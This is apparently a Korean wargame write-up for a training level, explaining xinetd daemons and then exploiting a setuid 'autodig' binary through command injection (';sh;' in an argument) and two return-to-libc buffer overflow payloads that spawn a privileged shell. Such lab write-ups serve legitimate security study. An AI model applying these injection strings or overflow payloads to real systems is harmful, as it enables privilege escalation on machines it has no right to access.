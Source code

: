 ## LEVEL 9



1. hint

   ![](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1578892627599.png)



2. `/etc/xinetd.d`에서 backdoor 파일 확인

   ![](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572942324076.png)



------



#### 개념 이해



1. Daemon (데몬)

   > 시스템에 관련된 작업을 수행하는 background process를 통칭하는 용어

   - 특징
     - 부팅 단계부터 지정된 daemon 동작
     - 서비스의 요청이 없는 경우에는 유휴(idle) 상태를 유지함
     - 기본적인 시스템 resource를 소모



- Stand alone 방식

  - 각 service daemon이 항상 standby하고 있다가 service 요청이 오면 바로 작동

  - 자주 사용되는 service에 사용

    > ex) httpd, sshd ...

- Xinetd 방식

  > eXtended InterNET service Daemon

  - Internet Super Daemon이 다른 daemon들을 관리하는 형태

  - Super daemon만 standby하고 있다가 service 요청이 들어오면 해당 service 프로그램을 실행 시킴

    - 네트워크 접속 제어 역할 수행
    - 특정 service daemon 대신 client가 연결을 하면 연결을 받아들이는 역할

  - 자주 사용하지 않는 service에 사용

    > ex) telnet ...

   

------



#### 취약점 공략



1. 환경 변수 - PATH

   `echo $PATH`

   ![](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572590486253.png)

   - `/bin` 이 환경 변수 PATH에 지정되어 있으므로 `/bin`에 있는 파일은 이름만으로 실행 가능

     

2. file (`autodig`) 실행

   - parameter를 쓰지 않은 경우

     `autodig`

     ![1572590586521](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572590586521.png)

     ​	→ argc가 2개가 아님 (argc = 1)

     

   - parameter를 잘못 쓴 경우

     `autodig 168.126.63.1 www.naver.com`

     ![1572590737920](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572590737920.png)

     ​	→ argc가 2개가 아님 (argc = 3)

     

   - parameter를 " "로 감싸준 경우

     `autodig "168.126.63.1 www.naver.com"`

     ![1572591403173](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572591403173.png)

     ​	→ argc = 2

     ​	→ `dig @168.126.63.1 naver.com` 가 실행됨



3. 첫번째 공격

   > ; 를 이용한 공격

   - `;`, `&&` : 명령어를 자동으로 이어서 실행 가능 (앞 명령어가 끝나면 뒷 명령어가 실행되는 방식)

     - `pwd; id; ls -ld /etc`

       ![1572668178064](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572668178064.png)

       ​	→ `pwd`, `id`, `ls -ld /etc` 명령어를 차례로 실행

       

     - `pwddd; id; ls -ld /etc`

       ![1572668385934](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572668385934.png)

       ​	→ `;` 를 이용한 명령어는 앞 명령어가 틀려도 뒷 명령어 실행 가능

       

     - `pwd && id && ls -ld /etc`

       ![1572668279714](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572668279714.png)

       ​	→ `pwd`, `id`, `ls -ld /etc` 명령어를 차례로 실행

       

     - `pwddd && id &&& ls -ld /etc`

       ![1572668468868](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572668468868.png)

       ​	→ `&&` 를 이용한 명령어는 앞 명령어가 틀리면 뒷 명령어 실행 불가능

       

   - `autodig "168.126.63.1 www.naver.com;sh;"`

     ![](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572668846691.png)

     ​	→ `dig 168.126.63.1 www.naver.com;sh; version.bind chaos txt` 를 실행한 결과와 같음

     ​	→ setuid bit가 설정되어 있으므로 `sh`는 level 4의 권한으로 실행된다

     

   - `autodig "168.126.63.1 www.naver.com;my-pass;"`

     ![1572668920547](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572668920547.png)

     ​	→ `dig 168.126.63.1 www.naver.com;my-pass; version.bind chaos txt` 를 실행한 결과와 같음

     ​	→ setuid bit가 설정되어 있으므로 `my-pass`는 level 4의 권한으로 실행된다

   

4. 두번째 공격

   > RTL을 이용한 공격

   - RTL(Return To Libc) 

     ​	: stack에 공격 코드인 shell code를 올려놓고 실행하는 기법을 막은걸 우회하는 기법 

     

   - 메모리 구조 분석

     ![1572669094777](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572669094777.png)

   ​	→ 0x78 = 120

   ​	→ 120 = 100 byte + 12 byte (dummy) + 8 byte (dummy)

   ​	⇒	Low                                    								High 
   ​				|-------------- 120 -------------|-- 4 --|-- 4 --| 
   ​				|--- 100  ---|--- 12 ---|--- 8 ---|-- 4 --|-- 4 --|
   ​				+-----------+----------+--------+------+------+
   ​				| cmd[100] | dummy | dummy|  SFP  |  RET  |
   ​				+-----------+----------+--------+------+------+

   

   - RTL 공격에 필요한 변수 준비

     - system() 함수의 주소

       ![](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572940428687.png)

       

     - "/bin/sh" 문자열의 주소

       - `vi findshell.c` 명령어로 findshell.c 파일 만들기

         ![1572940544315](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572940544315.png)

       - findshell.c 파일 컴파일 및 실행

         ![1572940582569](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572940582569.png)

         

   - 공격 실행

     ```
     autodig `python -c 'print "A"*119+"\xc0\xf2\x03\x42"+"A*4"+"\xa4\x7e\x12\x42"'`
     ```

     ![1572940776853](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572940776853.png)

     - 메모리 구조 분석

       |-------------- 120 -------------|-- 4 --|-- 4 --|-- 4 --|-- 4 --|
       |--- 100  ---|--- 12 ---|--- 8 ---|-- 4 --|-- 4 --|-- 4 --|-- 4 --|
       +-----------+----------+--------+------+------+------+-------+
       | cmd[100] | dummy | dummy|  SFP  |  RET  | argc |argv[1]|
       +-----------+----------+--------+------+------+------+-------+

       |dig @| .......  AAAAAAAAAAAA  ......  |system|AAAA|/bin/sh|

       |-  5  -|-------------- 119 --------------|--- 4 --|-- 4 --|-- 4 --| 

       ​	⇒ `system(/bin/sh)`

       

5. 세번째 공격

   > 환경 변수를 이용한 RTL 공격

   - 환경변수에 "/bin/sh" 문자열 저장

     - `export MYSHELL="/bin/sh"`

       ![1572941394533](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572941394533.png)

     - 환경변수 `MYSHELL` 주소 확인

       - `vi getmyshell.c` 명령어로 getmyshell.c 파일 만들기

         ![1572941635873](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572941635873.png)

       - getmyshell.c 파일 컴파일 및 실행

         ![1572941668858](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572941668858.png)

   

   - 공격 실행

     ```
     autodig `python -c 'print "A"*119+"\xc0\xf2\x03\x42"+"A*4"+"\x6f\xff\xff\xbf"'`
     ```

     ![](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572941830513.png)

     ​	⇒ `system(/bin/sh)`


